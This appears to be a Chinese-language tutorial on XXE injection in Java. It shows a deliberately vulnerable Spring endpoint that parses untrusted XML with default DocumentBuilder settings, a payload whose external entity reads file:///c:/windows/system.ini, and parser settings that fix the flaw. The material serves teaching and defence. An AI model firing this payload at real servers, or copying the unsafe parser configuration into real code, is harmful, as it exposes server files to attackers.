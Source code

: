     // 有回显
        @RequestMapping(value = "/DocumentBuilder/vuln01", method = RequestMethod.POST)
        public String DocumentBuilderVuln01(HttpServletRequest request) {
            try {
                String body = WebUtils.getRequestBody(request);
                logger.info(body);
                DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
                DocumentBuilder db = dbf.newDocumentBuilder();
                StringReader sr = new StringReader(body);
                InputSource is = new InputSource(sr);
                Document document = db.parse(is);  // parse xml
    
                // 遍历xml节点name和value
                StringBuilder buf = new StringBuilder();
                NodeList rootNodeList = document.getChildNodes();
                for (int i = 0; i < rootNodeList.getLength(); i++) {
                    Node rootNode = rootNodeList.item(i);
                    NodeList child = rootNode.getChildNodes();
                    for (int j = 0; j < child.getLength(); j++) {
                        Node node = child.item(j);
                        buf.append(String.format("%s: %s\n", node.getNodeName(), node.getTextContent()));
                    }
                }
                sr.close();
                return buf.toString();
            } catch (Exception e) {
                logger.error(e.toString());
                return EXCEPT;
            }
        }
    

有回显-
payload：


```
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE creds [
    <!ENTITY goodies SYSTEM
    "file:///c:/windows/system.ini"> ]>
    <creds>&goodies;</creds>
    
```


![图片.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20220904%2F1662280031_6314615f48eca3e5b6e64.png%21small)

# 修复方法

    DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
    dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
    dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
    